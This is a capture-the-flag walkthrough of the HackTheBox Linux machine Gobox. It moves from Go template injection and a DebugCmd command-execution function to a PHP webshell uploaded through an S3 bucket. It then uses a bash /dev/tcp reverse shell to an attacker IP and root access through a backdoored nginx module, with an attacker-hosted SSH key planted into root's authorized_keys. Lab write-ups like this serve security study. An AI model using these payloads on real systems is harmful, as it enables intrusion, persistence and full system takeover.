






<br />


<br />

OS -> Linux.

Difficulty -> Medium.

<br />

# Introduction:

<br />

We’re diving into Gobox, a Medium Linux box with some spicy Golang SSTI vibes. We start by exploiting a Golang template injection vulnerability that leaks credentials, granting access to the app’s source code. There, we uncover a debug function that gives us command execution. Inside the container, we find AWS CLI usage, and manage to upload a PHP webshell to the main host via S3 bucket sync. After getting a shell, we pivot to privilege escalation by exploring Nginx configs, where we discover a backdoored module listening on a local port to execute commands as root.

<br />

# Enumeration:

<br />

We start by running the typical `nmap` scan to see which ports are open:

<br />

```bash
❯ nmap -p- 10.10.11.113 --open --min-rate 5000 -sS -T5 -Pn -n -sCV
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-16 17:33 CEST
Nmap scan report for 10.10.11.113
Host is up (0.044s latency).
Not shown: 65413 closed tcp ports (reset), 118 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d8:f5:ef:d2:d3:f9:8d:ad:c6:cf:24:85:94:26:ef:7a (RSA)
|   256 46:3d:6b:cb:a8:19:eb:6a:d0:68:86:94:86:73:e1:72 (ECDSA)
|_  256 70:32:d7:e3:77:c1:4a:cf:47:2a:de:e5:08:7a:f8:7a (ED25519)
80/tcp   open  http    nginx
|_http-title: Hacking eSports | {{.Title}}
4566/tcp open  http    nginx
|_http-title: 403 Forbidden
8080/tcp open  http    nginx
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Hacking eSports | Home page
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.39 seconds
```

<br />

Open Ports:

- `Port 22` -> ssh 

- `Port 80` -> http

- `Port 4566` -> internal service (?)

- `Port 8080` -> http

<br />

# Http Enumeration: -> Port 80

<br />

Browsing the website on port 80:

<br />


<br />

It's a page for an `eSports` hacking competition, but we there is nothing `useful` or interactive at first glance.

We move on to the next HTPP port.

<br />

# Http Enumeration: -> Port 8080

<br />

The front page on port 8080 shows a `login panel`:

<br />


<br />

We try some common default `credentials` but none of them work.

Clicking on the "`Forgot Password`" link reveals the following form:

<br />


<br />

Submitting a random email shows our `input` reflected in the `response`:

<br />


<br />

As we know, being able to control the `output`, open the door to several types of `vulnerabilities`.

So, we intercept the request using `Burp Suite`:

<br />


<br />

Inside Burp Suite, there are two `key` things worth nothing:

- 1.- `X-Forwarded-Server: golang`:

This header reveals to us the `technology` stack used by the backend - In this case, `Golang`. 

It's useful `information` when testing for technology specific `vulnerabilities`.

<br />

```bash
HTTP/1.1 200 OK␍
Server: nginx␍
Date: Wed, 16 Apr 2025 16:11:59 GMT␍
Content-Type: text/html; charset=utf-8␍
Connection: keep-alive␍
X-Forwarded-Server: golang␍
Content-Length: 1513
```

<br />

- 2.- `Email validation is on the client-side only`:

Burp Suite allows us to `bypass` the Front-End validation by sending arbitrary values - even `non email` strings:

<br />


<br />

At this point, a specific vulnerability becomes more likely given the context, `SSTI (Server Side Template Injection)`.

<br />

## SSTI - GOLANG:

<br />

After some research, I found this [post](https://dev.to/blue_byte/server-side-template-injection-in-go-28md) that explains how to extract internal data from `Golang` template engines by exploiting SSTI.

<br />

### SSTI Test Payloads:

<br />

We start testing SSTI `basic` payloads such as:


```go
{{ printf "TESTING" }}
```


<br />

With this result:

<br />


<br />

Perfect! The `Golang` template engine is interpreting our `payload` successfully!

Next, we attempt to `extract` internal data:


```go
{{ . }}
```


<br />


<br />

It works! Some `credentials` are revealed in the output.

We can use them to `log` in to the login panel we found earlier:

<br />


<br />

Inside, we can see the `source code` of the main Golang application.

While analyzing it, we find an interesting `function` called (DebugCmd):

<br />


<br />

## DebugCmd - RCE:

<br />

We can `invoke` this `function` by writing its name preceded by a dot (.).

Any `arguments` passed to this function will be `executed` as system commands.

To test it, we execute the `"id"` command:

<br />


<br />

The `command` was executed succesfully.

However, we are probably inside a Docker `container`, since it's unusual to gain direct access as `root`.

To confirm this, we `run` the following:

<br />


<br />

Indeed, we are in a container.

<br />

## AWS Bucket:

<br />

We continue `enumerating` the container and find something interesting in the `/root/.bash_history` file:

<br />



<br />

It seems the system is using an `AWS` bucket.

With the `s3 ls` command, we see only one bucket named `"website"`:

<br />



<br />

The bucket appears to host the `files` server on `port 80`:

<br />



<br />

To verify this, we create a `test.txt` file:

<br />


```go
{{ .DebugCmd "echo 'Testing To Upload A File' > test.txt" }}
```


<br />

Then, we `upload` the file:

<br />



<br />

And finally, we `confirm` it by listing on the website:

<br />

```bash
❯ curl -s -X GET "http://10.10.11.113/test.txt"
Testing To Upload A File
```

<br />

Yes! We can `upload` files!

<br />

## PHP Webshell:

<br />

We are able to upload `files`, and the website executes `PHP`.

So, it's time to create a PHP `webshell`:

<br />


```go
{{ .DebugCmd "echo '<?php system($_GET[0]) ?>' > cmd.php" }}
```


<br />

We upload it:

<br />



<br />

Then, we execute a command:

<br />

```bash
❯ curl -s -X GET "http://10.10.11.113/cmd.php" -G -d '0=whoami'
www-data
```

<br />

We check if we're in the main `host` (outside Docker):

<br />

```bash
❯ curl -s -X GET "http://10.10.11.113/cmd.php" -G -d '0=hostname%20-I'
10.10.11.113 172.17.0.1 172.28.0.1 dead:beef::250:56ff:fe94:c055
```

<br />

To get an interactive `shell`, we trigger a reverse shell. It's important to `URL-encode` special characters like whitespaces (%20) and ampersands (%26) to avoid `breaking` the request.

<br />

```bash
❯ curl -s -X GET "http://10.10.11.113/cmd.php" -G -d '0=bash%20-c%20"bash%20-i%20>%26%20/dev/tcp/10.10.14.21/443%200>%261"'
```

<br />

Check the listener and...

<br />

```bash
❯ sudo nc -nlvp 443
[sudo] contraseña para theredp4nther: 
listening on [any] 443 ...
connect to [10.10.14.21] from (UNKNOWN) [10.10.11.113] 56828
bash: cannot set terminal process group (796): Inappropriate ioctl for device
bash: no job control in this shell
www-data@gobox:/opt/website$ id        
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

<br />

We're in! Intrusion complete.

<br />

# Privilege Escalation: www-data -> root

<br />

In the system, there's a home directory for a user named `"ubuntu"`.

We are not this `user`, but we can `read` the user flag without any issues:

<br />

```bash
www-data@gobox:/home/ubuntu$ ls
user.txt
www-data@gobox:/home/ubuntu$ cat user.txt 
691658f1166135d1e36b3be62fxxxxxx
```

<br />

To better understand the structure of the different `hosts`, we check Nginx configuration under `"/etc/nginx/sites-enabled/"`:

<br />

```bash
www-data@gobox:/etc/nginx/sites-enabled$ ls
default
```

<br />

### Internal Server:

<br />

First, we have the server listening on port 4566:

<br />

```bash
server {
	listen 4566 default_server;


	root /var/www/html;

	index index.html index.htm index.nginx-debian.html;

	server_name _;


        location / {
		if ($http_authorization !~ "(.*)SXBwc2VjIFdhcyBIZXJlIC0tIFVsdGltYXRlIEhhY2tpbmcgQ2hhbXBpb25zaGlwIC0gSGFja1RoZUJveCAtIEhhY2tpbmdFc3BvcnRz(.*)") {
		   return 403;
		}
                proxy_pass http://127.0.0.1:9000;
        }

}
```

<br />

This server implements a hardcoded `Authorization` check.

That's the reason why we saw a `"403 Forbidden"` during our initial nmap scan.

If the header `matches`, the request is `forwarded` to port 9000.

<br />

### Main Server:

<br />

Next is the `main` server on port 80:

<br />

```bash
server {
	listen 80;
	root /opt/website;
	index index.php;

	location ~ [^/]\.php(/|$) {
	   fastcgi_index index.php;
	   fastcgi_param REQUEST_METHOD $request_method;
	   fastcgi_param SCRIPT_FILENAME $document_root$fastcgi_script_name;
	   fastcgi_param QUERY_STRING $query_string;


            fastcgi_pass unix:/tmp/php-fpm.sock;
	}
}
```

<br />

This configuration handles `PHP` through a `socket` and points directly to `/opt/website`.

<br />

### Golang Server:

<br />

Then we have the `Golang` server (vulnerable to `SSTI`) on port 8080:

<br />

```bash
server {
	listen 8080;
	add_header X-Forwarded-Server golang;
	location / {
		proxy_pass http://127.0.0.1:9001;
	}
}
```

<br />

The most interesting part here is the addition of the custom header `X-Forwarded-Server: golang`, which helped us identify the `backend` technology during enumeration.

<br />

### Strange Server:

<br />

Finally, we can see an `unknown` service bound to  127.0.0.1:8000.

<br />

```bash
server {
	listen 127.0.0.1:8000;
	location / {
		command on;
	}
}
```

<br />

## Nginx Backdoor:

<br />

The `"command on"` directive immediately caught my attention.

After googling it, we found a [Github repository](https://github.com/limithit/NginxExecute) with some `key` information:

<br />



<br />

We found a `backdoor`!

According to the `documentation` we try to run a command making a `request` to the server but it doesn't work:

<br />

```bash
www-data@gobox:/etc/nginx/sites-enabled$ curl -g http://127.0.0.1:8000/?system.run["whoami"]
curl: (52) Empty reply from server
```

<br />

Unfortunately, we get no response, only an `empty` reply.

To be sure we were looking at the right module, we search with `find` the `"ngx_http_execute_module.so"`:

<br />

```bash
www-data@gobox:/etc/nginx/sites-enabled$ find / -name "ngx_http_execute_module.so" -type f 2>/dev/null
/usr/lib/nginx/modules/ngx_http_execute_module.so
www-data@gobox:/etc/nginx/sites-enabled$ ls -l /usr/lib/nginx/modules/ngx_http_execute_module.so
-rw-r--r-- 1 root root 163896 Aug 23  2021 /usr/lib/nginx/modules/ngx_http_execute_module.so
```

<br />

Now we use `strings` on the binary and filtered for `"run"` to see if the server uses a different option than command.run to `invoke` the backdoor:

<br />

```bash
www-data@gobox:/etc/nginx/sites-enabled$ strings /usr/lib/nginx/modules/ngx_http_execute_module.so | grep "run"
ippsec.run
```

<br />

Boom! The correct trigger is `ippsec.run`, not command.run.

We are able to run commands as `root`:

<br />

```bash
www-data@gobox:/etc/nginx/sites-enabled$ curl -g http://127.0.0.1:8000/?ippsec.run["whoami"] 
root
```

<br />

To get a `shell`, we can replace root `authorized_keys`:

<br />

```bash
curl -g http://127.0.0.1:8000/?ippsec.run["curl 10.10.14.21/id_rsa.pub -o /root/.ssh/authorized_keys"] 
```

<br />

And connect via `ssh` from our attacker machine:

<br />

```bash
❯ ssh -i ~/.ssh/id_rsa root@10.10.11.113
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-81-generic x86_64)
...[snip]...
root@gobox:~# id
uid=0(root) gid=0(root) groups=0(root)
root@gobox:~# cat root.txt
e21005dd75d1b3323ef985d4f8xxxxxx
```

<br />

Machine Gobox pwned!!

Hope you had learned a lot and enjoyed the machine as much I did!!

Keep hacking!!❤️❤️

<br />
